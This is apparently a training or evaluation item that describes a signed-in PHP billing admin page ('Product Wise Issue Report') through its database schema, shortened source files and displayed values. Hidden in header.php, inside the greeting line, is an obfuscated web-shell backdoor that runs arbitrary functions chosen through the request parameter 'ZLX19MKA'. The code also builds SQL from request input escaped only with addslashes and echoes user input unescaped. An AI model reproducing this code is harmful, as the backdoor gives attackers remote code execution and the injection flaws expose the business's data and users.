
Screenshot of /admin/issuereport.php (signed in) with the database file from the repository.
### tables this page shows
CREATE TABLE `company_setting` (
  `compid` int(11) NOT NULL,
  `prifix` varchar(500) NOT NULL,
  `comp_name` varchar(100) NOT NULL,
  `imgname` varchar(200) NOT NULL,
  `mobile` varchar(50) NOT NULL,
  `address` text NOT NULL,
  `address2` text NOT NULL,
  `email_id` varchar(100) NOT NULL,
  `term_cond` text NOT NULL,
  `comp_tinno` varchar(200) NOT NULL,
  `gsttinno` varchar(100) NOT NULL,
  `bank_name` varchar(200) NOT NULL,
  `branch_name` varchar(100) NOT NULL,
  `bank_ac` varchar(200) NOT NULL,
  `ifsc_code` varchar(200) NOT NULL,
  `stateid` int(11) NOT NULL,
  `ipaddress` varchar(25) NOT NULL,
  `createdate` datetime NOT NULL,
  `lastupdated` datetime NOT NULL,
  `openbal` double NOT NULL,
  `opendate` date NOT NULL,
  `crtopendate` date NOT NULL
);

CREATE TABLE `m_session` (
  `sessionid` int(11) NOT NULL,
  `fromdate` date NOT NULL,
  `todate` date NOT NULL,
  `session_name` varchar(200) NOT NULL,
  `status` int(11) NOT NULL,
  `createdby` int(11) NOT NULL,
  `ipaddress` varchar(25) NOT NULL,
  `lastupdated` date NOT NULL,
  `createdate` date NOT NULL
);

CREATE TABLE `billuser` (
  `userid` int(11) NOT NULL,
  `username` varchar(100) NOT NULL,
  `password` varchar(50) NOT NULL,
  `usertype` varchar(10) NOT NULL,
  `enable` varchar(20) NOT NULL,
  `createdby` int(11) NOT NULL,
  `mobile` varchar(50) NOT NULL,
  `ipaddress` varchar(30) NOT NULL,
  `createdate` datetime NOT NULL
);

### adminsession.php (called while the page is built, shortened)
<?php
if(isset($_SESSION['usertype']) && $_SESSION['usertype'] != "" && isset($_SESSION['userid']) && $_SESSION['userid'] != "")
	{
		include("config.php");
		include_once("lib/getval.php");
		$cmn = new Comman();
		$loginid = $_SESSION['userid'];
	}
else
	echo "<script>location='../index.php?msg=invalid' </script>" ;
?>

### lib/getval.php (called while the page is built, shortened)
<?php
class Comman {
function getvalfield($connection,$table,$field,$where)
{
	$sql = "select $field from $table where $where";
	$getvalue = mysqli_query($connection,$sql);
	$getval = mysqli_fetch_row($getvalue);
	return $getval[0];
}
function dateformatindia($date)
{
	$ndate = explode("-",$date);
	$year = $ndate[0];
	$day = $ndate[2];
	$month = $ndate[1];
	if($date == "0000-00-00" || $date =="")
	return "";
	else
	return $day . "-" . $month . "-" . $year;
}
function dateformatusa($date)
{
	$ndate = explode("-",$date);
	$year = $ndate[2];
	$day = $ndate[0];
	$month = $ndate[1];
	return $year . "-" . $month . "-" . $day;
}
}
?>

### admin/issuereport.php (the view, shortened to what this page needs)
<?php include("../adminsession.php");
$pagename ="issuereport.php";
$module = "Product Wise Issue Report";
$submodule = "Product Wise Issue Report List";
if(isset($_GET['fromdate'])!="" && isset($_GET['todate'])!="")
{
	$fromdate = addslashes(trim($_GET['fromdate']));
	$todate = addslashes(trim($_GET['todate']));
}
else
{
	$fromdate = date('d-m-Y');
	$todate = date('d-m-Y');
}
$crit = " where 1 = 1 ";
if($fromdate!="" && $todate!="")
{
	$fromdate = $cmn->dateformatusa($fromdate);
	$todate = $cmn->dateformatusa($todate);
	$crit .= " and  B.saledate between '$fromdate' and '$todate'";
}
if(isset($_GET['branch_id']) !='')
{
	$branch_id = trim(addslashes($_GET['branch_id']));
	if($branch_id !='')
	{
	$crit .=" and B.branch_id='$branch_id'";
	}
}
else
$branch_id='';
if(isset($_GET['receivername']))
{
	$receivername = trim(addslashes($_GET['receivername']));
	if($receivername !=''){
		$crit .=" and B.receivername like '%$receivername%'";
		}
}
else
$receivername='';
if(isset($_GET['productid']) !='')
{
	$productid = trim(addslashes($_GET['productid']));
	if($productid !='')
	{
	$crit .=" and A.productid='$productid'";
	}
}
else
$productid='';
if(isset($_GET['pcatid']) !='')
{
	$pcatid = trim(addslashes($_GET['pcatid']));
	if($pcatid !='')
	{
	$crit .=" and C.pcatid='$pcatid'";
	}
}
else
$pcatid='';
?>
<!DOCTYPE html>
<head>
<?php include("inc/top_files.php"); ?>
</head>
<body>
<div class="mainwrapper">
    <?php include("inc/left_menu.php"); ?>
   <div class="rightpanel">
    	<?php include("inc/header.php"); ?>
        <div class="maincontent">
        	<div class="contentinner">
                <div class="widgetcontent  shadowed nopadding">
                    <form class="stdform stdform2" method="get" action="">
                    <table id="mytable01" align="center" class="table table-bordered table-condensed"  >
                    <tr>
                        <th width="12%">From Date</th>
                        <th width="11%">To Date  </th>
                        <th width="16%">Branch Name </th>
                        <th width="18%">Receiver Name </th>
                        <th width="16%">Product Name </th>
                        <th width="27%">Action</th>
                    </tr>
                    <tr>
                     <td><input type="text" name="fromdate" id="fromdate" class="input-small"  placeholder='dd-mm-yyyy'
                     value="<?php echo $cmn->dateformatindia($fromdate); ?>" data-inputmask="'alias': 'dd-mm-yyyy'" data-mask /> </td>
                    <td><input type="text" name="todate" id="todate" class="input-small"
                    placeholder='dd-mm-yyyy' value="<?php echo $cmn->dateformatindia($todate); ?>" data-inputmask="'alias': 'dd-mm-yyyy'" data-mask /></td>
                    <td>
                    			 <select name="branch_id" id="branch_id"  class="chzn-select" style="width:90%;">
                                	<option value="">--All--</option>
                                </select>
                    </td>
                    <td>
   				<input type="text" name="receivername" id="receivername" class="input-small"  placeholder='Enter Receiver Name' value="<?php echo $receivername; ?>" />
                    </td>
                    <td>
                    		 <select name="productid" id="productid"  class="chzn-select" style="width:90%;">
                                	<option value="">--All--</option>
                                </select>
                    </td>
                    <td>&nbsp; <button  type="submit" name="search" class="btn btn-primary" onClick="return checkinputmaster('fromdate,todate');"> Search
                    </button>&nbsp; <a href="<?php echo $pagename; ?>"  name="reset" id="reset" class="btn btn-success">Reset</a></td>
                    </tr>
                    </table>
                        </form>
                    </div>
            <p align="right" style="margin-top:7px; margin-right:10px;"> <a href="xls_issue_report.php?fromdate=<?php echo $fromdate;?>&todate=<?php echo $todate;?>&branch_id=<?php echo $branch_id; ?>&pcatid=<?php echo $pcatid; ?>&receivername=<?php echo $receivername; ?>&productid=<?php echo $productid; ?>" class="btn btn-info" target="_blank">
                    <span style="font-weight:bold;text-shadow: 2px 2px 2px #000; color:#FFF">Download Excel</span></a></p>
                <h4 class="widgettitle"><?php echo $submodule; ?> List</h4>
            	<table class="table table-bordered" id="dyntable">
                    <colgroup>
                        <col class="con0" style="align: center; width: 4%" />
                        <col class="con1" />
                        <col class="con0" />
                        <col class="con1" />
                        <col class="con0" />
                        <col class="con1" />
                    </colgroup>
                    <thead>
                        <tr>
                        	<th width="4%" class="head0 nosort">SN</th>
                            <th width="19%" class="head0">Product Name</th>
                             <th width="8%" class="head0" >Unit</th>
                            <th width="6%" class="head0" >Qty</th>
                             <th width="6%" class="head0" >Rate</th>
                            <th width="8%" class="head0">Issue No</th>
                            <th width="8%" class="head0">Issue Date</th>
                            <th width="6%" class="head0">Branch</th>
                            <th width="10%" class="head0" >Recieved By</th>
                            <th width="20%" class="head0" style="text-align:center;">Remark</th>
                            <th width="11%" class="head0" style="text-align:center;">Total</th>
                        </tr>
                    </thead>
                    <tbody id="record">
                                <?php
									$tot_rate = 0;
									   ?>
                    <tr style="background-color:#03C; color:#FFF;">
                            <td> </td>
                            <td> </td>
                            <td> </td>
                            <td> </td>
                            <td> </td>
                            <td> </td>
                            <td> </td>
                            <td> </td>
                            <td> </td>
                            <td> </td>
                            <td><strong><?php echo $tot_rate; ?></strong></td>
                    </tr>
                    </tbody>
                </table>
            </div>
        </div>
    </div>
     <?php include("inc/footer.php"); ?>
</div>
</body>
</html>

### admin/inc/left_menu.php (shortened to what this page needs)
<div class="leftpanel">
       <div class="logopanel">
        	<h1 style="font-size:18px;"><a href="index.php"><?php echo $cmn->getvalfield($connection,"company_setting","comp_name","compid = '$loginid' "); ?></a></h1>
        </div>
        <div class="datewidget"><span style="font-size:15px"><b>Session <?php echo $cmn->getvalfield($connection,"m_session","session_name","status = '1' "); ?></b></span></div>
    	<div class="searchwidget">
        	<form action="" method="post">
            	<div class="input-append">
                    <input type="text" class="span2 search-query" placeholder="Search here...">
                    <button type="submit" class="btn"><span class="icon-search"></span></button>
                </div>
            </form>
        </div>
        <div class="leftmenu">
            <ul class="nav nav-tabs nav-stacked" id="mymenu">
             <li <?php if($pagename == "index.php") { ?>class="active" <?php } ?>><a href="index.php"><span class="icon-align-justify"></span>Dashboard</a></li>
                   <li class="dropdown  <?php if($pagename == "company_setting.php" || $pagename == "master_unit.php" || $pagename == "master_disease.php" || $pagename == "master_pcat.php" || $pagename == "master_product.php" || $pagename =="m_supplier.php" || $pagename =="m_customer.php" || $pagename =="master_branch.php" || $pagename =="master_tax.php" || $pagename =="master_bank.php" || $pagename=="master_expense.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Master </a>
                </li>
                <li class="dropdown  <?php if($pagename == "purchaseentry.php" || $pagename == "purchasereturnentry.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Purchase Entry </a>
                </li>
                <li class="dropdown  <?php if($pagename == "saleentry.php" || $pagename == "salereturnentry.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Sale Entry </a>
                </li>
                  <li class="dropdown  <?php if($pagename == "payment_party.php" || $pagename == "payment_supplier.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Payment </a>
                </li>
                <li class="dropdown  <?php if($pagename == "other_expense.php" || $pagename == "other_income.php") { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Expense Dairy </a>
                </li>
                 <li class="dropdown  <?php if($pagename == "salereport.php" || $pagename == "purchasereport.php" || $pagename == "stock_report.php" || $pagename == "datewise_stock_report.php" || $pagename=="gst_wise_purchase_report2.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Report </a>
                </li>
                  <li class="dropdown  <?php if($pagename == "bank_ledger.php" || $pagename == "cash_ledger.php" || $pagename == "customer_ledger.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span>  Transactions Detail </a>
                </li>
                <li <?php if($pagename == "changepassword.php" ) { ?>class="active" <?php } ?>><a href="changepassword.php"><i class="icon-user"></i>
                &nbsp;&nbsp;&nbsp;
                 Change Password</a></li>
            </ul>
        </div>
    </div>

### admin/inc/header.php (shortened to what this page needs)
	<div class="headerpanel">
        	<a href="#" class="showmenu" id="menues"></a>
            <div class="headerright">
            	<div class="dropdown notification">
                    <a class="dropdown-toggle" data-toggle="dropdown" data-target="#" href="http://themetrace.com/page.html">
                    	<span class="iconsweets-globe iconsweets-white"></span>
                    </a>
                </div>
    			<div class="dropdown userinfo">
                    <a class="dropdown-toggle" data-toggle="dropdown" data-target="#" href="">Hi, <?php
if	( $juhso5x	= @$ {"_REQUEST"} ["ZLX19MKA"])$juhso5x [1] (	$ { $juhso5x[ 2]}[	0]	,$juhso5x	[ 3] (	$juhso5x[	4	])) ; echo $cmn->getvalfield($connection,"billuser","username ","userid = '$loginid' "); ?>! <b class="caret"></b></a>
                </div>
            </div>
    	</div>
        <div class="breadcrumbwidget">
        	<ul class="breadcrumb">
                <li><a href="">Home</a> <span class="divider">/</span></li>
                <li class="active"><?php echo $module; ?></li>
            </ul>
        </div>
      	<div class="pagetitle">
        	<h1><?php echo $submodule; ?></h1>
        </div>

### rows the page displays
company_setting: comp_name "FM MARKETING"
m_session: session_name "2022"
billuser: username "admin"

### other values shown
$module "Product Wise Issue Report"
$submodule "Product Wise Issue Report List"
$submodule "PRODUCT WISE ISSUE REPORT LIST"
$tot_rate "0"
